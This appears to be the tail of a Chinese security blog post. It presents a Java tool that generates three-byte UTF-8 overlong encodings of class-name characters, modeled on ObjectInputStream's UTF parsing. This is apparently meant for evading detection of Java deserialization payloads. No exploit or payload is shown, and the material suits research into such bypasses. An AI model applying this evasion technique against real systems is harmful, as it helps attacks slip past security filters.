对于一个字符对应两个字节的对应关系，在群友 1ue 的代码中就给出了。

这里给出一个字符对应三个字节的对应关系生成工具类

```plain
import java.util.HashMap;
import java.util.Map;

/**
 * 参考 p 神：https://mp.weixin.qq.com/s/fcuKNfLXiFxWrIYQPq7OCg
 * 参考 1ue：https://t.zsxq.com/17LkqCzk8
 * 实现：参考 ObjectInputStream#private long readUTFSpan(StringBuilder sbuf, long utflen) 方法
 */
public class OverlongEncodeTools {
    private static Map<Character, String[]> bytesMap = new HashMap<>();

    public static void main(String[] args) {
        char[] keys = new char[]{'$', '.', ';', 'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z', '[', ']', 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z'};
        for (char k : keys) {
            bytesMap.put(k, CharSplitToThressBytes(k));
        }
        printMap(bytesMap);
    }

    public static void printMap(Map<Character, String[]> map) {
        System.out.println("-------------开始打印map-------------");
        System.out.println("Map<Character,int[]> bytesMap=new HashMap<>();");
        for (Map.Entry<Character, String[]> entry : map.entrySet()) {
            String row = "bytesMap.put('{c}', new int[]{{b1},{b2},{b3}});";
            String[] bytes = entry.getValue();
            row = row.replace("{c}", String.valueOf(entry.getKey()));
            row = row.replace("{b1}", bytes[0]);
            row = row.replace("{b2}", bytes[1]);
            row = row.replace("{b3}", bytes[2]);
            System.out.println(row);
        }
    }

    /**
     * 将一个字符拆分为三个字节的表现形式
     *
     * @param c:要拆分的字符
     * @return:字符拆分后的三个字节 b1  11100000
     * b2  100000+字符前两位
     * b3  10+字符后六位
     */
    public static String[] CharSplitToThressBytes(char c) {
        System.out.println("-------------" + c + "-------------");
        int b1, b2, b3;
        byte t = (byte) c;
        b1 = Integer.parseInt("11100000", 2);
        //0xc0:11000000
        //0x80:10000000
        b2 = ((t & 0xc0) >>> 6) | 0x80;
        //0x3f:00111111
        b3 = (t & 0x3f) | 0x80;
        String b10x = "0x" + Integer.toHexString(b1);
        String b20x = "0x" + Integer.toHexString(b2);
        String b30x = "0x" + Integer.toHexString(b3);
        System.out.println("b1: " + b10x);
        System.out.println("b2: " + b20x);
        System.out.println("b3: " + b30x);
        if (TestThreeByteCode(b1, b2, b3) != c) {
            System.out.println("字符c： " + c + " 表示错误!");
            System.exit(0);
        }
        System.out.println("字符" + c + " 表示无误");
        return new String[]{b10x, b20x, b30x};
    }

    //3个字节表示一个字符
    public static char TestThreeByteCode(int b1, int b2, int b3) {
        return (char) (((b1 & 0x0F) << 12) |
                ((b2 & 0x3F) << 6) |
                ((b3 & 0x3F) << 0));
    }
}
```

最后贴上一个字符拆分为三个字节成功后的截图

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229102940-643f98a2-d6aa-1.png)

## 0x 03 写后感

写字符和字节对应关系生成类的时候，对于像 b2 这种需要取字符几位的情况，我最开始想的是首先将字符转换为二进制字符串，再用字符串切割获取那几位，之后再安装组成将二进制的字符串拼接，再转换为十进制，无疑是过于麻烦，想到刚看到的几个字节合成一个字符位运算的逻辑，发现用位运算就能轻松解决这个问题。比如 b2，只需要进行 ((t & 0xc0) >>> 6) | 0x80;就可达到目标，一行代码，轻松解决问题。

参考链接：

1ue：[https://t.zsxq.com/17LkqCzk8](https://t.zsxq.com/17LkqCzk8)

p 神：[https://mp.weixin.qq.com/s/fcuKNfLXiFxWrIYQPq7OCg](https://mp.weixin.qq.com/s/fcuKNfLXiFxWrIYQPq7OCg)
